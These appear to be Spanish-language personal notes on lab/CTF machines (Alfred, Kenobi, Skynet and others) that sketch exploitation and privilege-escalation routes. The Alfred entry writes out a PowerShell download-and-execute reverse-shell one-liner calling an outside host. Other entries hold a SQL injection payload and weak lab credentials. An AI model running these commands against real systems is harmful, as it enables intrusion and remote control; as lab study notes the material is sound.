 ## Alfred
explotacion en el puerto 8080 credenciales admin admin, se crea un proyecto libre y se ejecuta un comando de windows en buil
powershell iex (New-Object Net.WebClient).DownloadString('http://10.11.87.166:4444/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port >
escalacion: token seimpersonalprivilege

## Brainpan_1
Buffer overflow

## Gamezone
explotacion: sqlinjection ' or 1=1 -- -
sqlmap
puertos no expuestos


## HackPack
explotacion: puerto 80 login fuerza bruta burbpsuit hydra
credenciales: admin : 1qaz2wsx
explotacion version
escalacion: servicio en ejecucion


## Kenobi
explotacion: smbclient
111
como la maquina tenia una montura en /var se descargo la montura en la maquina donde tenia el id_rsa
una vez dentro para escalar privilegios se aprovecho el archivo /usr/bin/menu

## Relevant
explotacion: smb
revershell aspx
setimpersonateprivilege

## Steel_mountain
vulnerabilidad: puerto 8080
HttpFileServer 2.3
se puede reiniciar un servicio

## Blue
eternal blue

## Brainstorm
buffer overflow

## Daily
exploit: version joomla

## Gatekeeper
buffer overflow

## Overpass_2                                                                              
Identificar el atacante como tuvo acceso a la maquina
wireshark

## Skynet
explotacion; listar directorios con smbclient
hydra


explotacion:
puerto 3333
fuzzing initial/uploads
extension del archivo .phtml
escalacion permisos suid /bin/systemctl
